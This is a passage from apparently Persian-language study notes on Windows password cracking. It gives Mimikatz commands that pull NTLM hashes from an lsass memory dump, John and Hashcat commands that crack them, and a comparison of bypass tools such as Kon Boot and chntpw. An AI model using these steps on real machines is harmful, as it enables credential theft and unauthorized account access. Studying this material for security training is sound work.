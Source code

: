 		1. ![[Pasted image 20240629194127.png]]
	2. See `.DMP` file =>
		1. ![[Pasted image 20240629194153.png]]
3. حال به CMD که Mimikatz در آن باز است بر میگردیم و دستورات زیر را در کنسول Mimikatz وارد میکنیم:
```powershell
C:\User\Davoodya\Download\mimikatz-master\Win32> mimikatz.exe
mimikatz: privilege::debug
mimikatz: log hash.txt
mimikatz: sekurlsa::minidump C:\Users\Davoodya\AppData\Local\Temp\lsass.DMP
mimikatz: sekurlsa::logonPasswords #when run this command all accounts in machine wich logged in, listed in terminal and also stored in hash.txt file
```
	![[Pasted image 20240629194522.png]]
	![[Pasted image 20240629194711.png]]
4. *مشاهده نتیجه Hash های بدست آمده*
	1. حال نتیجه کرک را در ترمینال و همچنین در فایل `hash.txt` درون پوشه Mimikatz که لاگ های ابزار درون آن ذخیره شده است را میتوانیم مشاهده کنیم:
		1. ![[Pasted image 20240629194859.png]]
	2. حال تمام داده های اضافی را از فایل `hash.txt` حذف میکنیم و فقط نام یوزر و مقدار hash شده NTLM آنرا در جلوی آن وارد میکنیم:
		1. ![[Pasted image 20240629195049.png]]
	3. سپس هم فایل `hash.txt` را کپی و در ماشین کالی پیست میکنیم.
5. *کرک کردن فایل Hash بدست آمده `hash.txt`*
	1. حال که فایل `hash.txt` را به ماشین کلی منتقل کردیم، Terminal را در جایی که فایل وجود دارد باز میکنیم تا بتوانیم آنرا بوسیله `John` و یا `Hashcat` کرک کنیم.
```sh Kali Machine
john -w hash.txt --format="NT"
#Or Attack with hashcat
hashcat -a 0 -m 1000 hash.txt /usr/share/wordlists/rockyou.txt #Dictionary Attack
hashcat -a 3 -m 1000 hash.txt cbad@4321 #Bruteforce Attack
hashcat hash.txt -m 1000 --show #See Cracked Result
```
	![[Pasted image 20240629195355.png]]
	![[Pasted image 20240630224514.png]]
### Review of Password Cracking, Bypassing & Recovery - E21
#### Comparing Password Resetting/Bypassing Tools
تا اینجا ابزار هایی را برای Resetting و یا Bypassing پسورد ها بررسی کردیم که هر کدام مزایا و معایب خود خاص را دارند، همچنین از هر کدام نیز در ورژن های خاصی از ویندوز میتوان استفاده کرد. 
*در تصویر زیر میتوانید مقایسه ای کامل بین تمامی این ابزار ها را مشاهده کنید:*
	![[Pasted image 20240630191905.png]]
*دو نمونه از بهترین این ابزار ها >>*
1. یکی Kon Boot است که میتواند به سرعت برای Bypass و یا Unlock Online Account استفاده شود.
2. دومی هم ابزار و کامند Chntpw در Kali Live که برای تغییر فایل SAM ماشین ویندوزی و در واقع Bypassing مکانیزم وارد کردن پسورد برای لاگین استفاده میشود.
#### Comparing Password Cracking Tools
ابزار هایی که برای کرک کردن پسورد بررسی کردیم را نیز در تصویر زیر میتوانیم با هم مقایسه کنیم:
	![[Pasted image 20240630192334.png]]
1. `John` Easiest to Use
	- از ساده ترین ابزار ها `John` را میتوان نام برد که میتواند مقادیر هش شده را در حملاتی مانند Dictionary Attack کرک کند.
2. `Hashcat` Fast GPU Based Cracker
	- مزیت ابزار `Hashcat` استفاده از GPU در فرآیند کرک است که باعث افزایش تصادعی سرعت کرک میشود. 
	- با استفاده از این ابزار میتوانیم انواع حملات از جمله Bruteforce, Dictionary, Hybrid, .... را برای کرک مقادیر هش پیاده سازی کنیم.
3. `Ophcrack` Fast Speed Cracking with Rainbow Tables
	- ابزار `Ophcrack` میتواند با استفاده از Rainbow Table ها که مقادیر Precomputed hashes(هش های از قبل محاسبه شده) در آن قرار دارد سرع عملیات کرک را بالا ببرد.
4.  `Mimikatz` Recover Hashes from RAM